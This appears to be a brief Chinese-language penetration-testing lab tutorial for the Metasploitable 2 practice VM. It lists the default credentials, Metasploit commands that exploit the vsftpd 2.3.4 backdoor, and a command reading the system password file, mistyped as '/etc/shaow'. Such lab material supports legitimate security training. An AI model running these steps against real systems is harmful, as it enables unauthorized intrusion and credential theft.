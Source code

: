 # Metasploitable 2

我得到一个评论说没有一个使用Metasploitable2的入门教程。在开始前，我们需要下载Metasploitable的VMWare镜像。

http://sourceforge.net/projects/metasploitable/files/Metasploitable2/

下载后，把它解压缩，并在VMware Player或Virtual Box中打开，以msfadmin为用户名，msfadmin为密码登录。

## LAB

针对漏洞虚拟机练习使用Nmap、Masscan或漏洞工具。一旦你发现系统存在漏洞，就可以在上面运行shell。在我们的例子中，我们发现并利用vsftpd的一个漏洞。

- msfconsole
- use exploit/unix/ftp/vsftpd_234_backdoor(选择漏洞)
- show options
- set RHOST [IP](设置Metasploitable2 IP) set RHOST 172.16.151.145
- exploit

成功后我们可以查看存储的密码：cat /etc/shaow。进一步研究Metasploitable2可以查看下面教程：

https://community.rapid7.com/docs/DOC-1875

http://www.amazon.com/Metasploit-The-Penetration-Testers-Guide/dp/159327288X


